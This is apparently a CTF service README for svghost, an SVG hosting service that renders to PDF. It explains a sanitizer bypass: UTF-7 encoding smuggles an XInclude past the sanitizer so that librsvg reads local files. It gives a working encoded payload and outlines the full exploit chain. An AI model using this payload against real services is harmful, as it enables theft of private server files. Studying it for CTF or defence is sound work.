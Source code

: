 # svghᗣst
**svghᗣst** is a cute web service for drawing and hosting SVGs

![svghᗣst](img/svghost.png)

HTTP API:
* /api/me — current user ID;
* /api/svg — read own's SVG or publish a new SVG;
* /api/pdf — preview public SVG;
* /api/list — list of published SVGs;

Users can draw and post SVG public or private, read own's SVG and preview public SVG as PDF.
The flags are posted by the checksystem as private SVGs. So the user cannot read the flags directly.

# vuln
**svghᗣst** uses the latest version of `librsvg` as a SVG to PDF rendering engine.
Notice, that:
* SVG is an XML-based format;
* `librsvg` [processes](https://gitlab.gnome.org/GNOME/librsvg/-/blob/bf47971e680353d9c8e111dc3ee5a5fde8495d46/SECURITY.md#security-considerations-for-librsvg) references to external files by itself: XML XInclude, xlink:href attributes, etc (with some [restrictions](https://developer-old.gnome.org/rsvg/unstable/RsvgHandle.html#id-1.2.5.7.5.6)).

The documentation also says *"If your application has more stringent requirements, it may need to sandbox its use of librsvg"*.

Thats why **svghᗣst** uses [sanitization](https://github.com/HITB-CyberWeek/hitbsecconf-ctf-2021/blob/main/services/svghost/src/utils/svg/SvgSanitizer.cs) before reneding.
The problem is that UTF-8 is used in the sanitizer for decoding:
```cs
var doc = new XmlDocument {XmlResolver = null!};
doc.Load(XmlReader.Create(new StringReader(data), XmlSettings));
```
The `encoding` attribute from the XML header is ignored by `SvgSanitizer` but not by `librsvg`.

This is where UTF-7 comes into play. UTF-7 is an obsolete variable-length character encoding for representing Unicode text using a stream of ASCII characters.
It also can be used in our case as the `<` and `>` marks can be encoded as `+ADw-` and `+AD4-`, which let through as simple text.

Try to put `1.txt` with some secret into current `data/*` directory and check this:
```sh
printf '<svg xmlns:xi="http://www.w3.org/2001/XInclude"><text><xi:include href="./1.txt" parse="text"/></text></svg>' | iconv -f utf-8 -t utf-7
```
```
+ADw-svg xmlns:xi+AD0AIg-http://www.w3.org/2001/XInclude+ACIAPgA8-text+AD4APA-xi:include href+AD0AIg./1.txt+ACI parse+AD0AIg-text+ACI-/+AD4APA-/text+AD4APA-/svg+AD4-
```
and post this XML to **svghᗣst** service:
```xml
<?xml version="1.0" encoding="utf-7"?>
<svg>+ADw-svg xmlns:xi+AD0AIg-http://www.w3.org/2001/XInclude+ACIAPgA8-text+AD4APA-xi:include href+AD0AIg./1.txt+ACI parse+AD0AIg-text+ACI-/+AD4APA-/text+AD4APA-/svg+AD4-</svg>
```
The XML declaration is skipped by sanitizer. The second SVG UTF-7 encoded root is ignored by sanitizer as simple `#text` and is rendered by `librsvg`.

So the full exploit is to list all private files, compose SVG with UTF-7 encoded includes, taking into account that **overflowed text isn't rendered** (play with `font-size`, `textLength`, `transform="scale()"`, etc), post it, render it as PDF, and then parse PDF as text.

See the exploit here: https://github.com/HITB-CyberWeek/hitbsecconf-ctf-2021/blob/main/sploits/svghost/sploit.sh
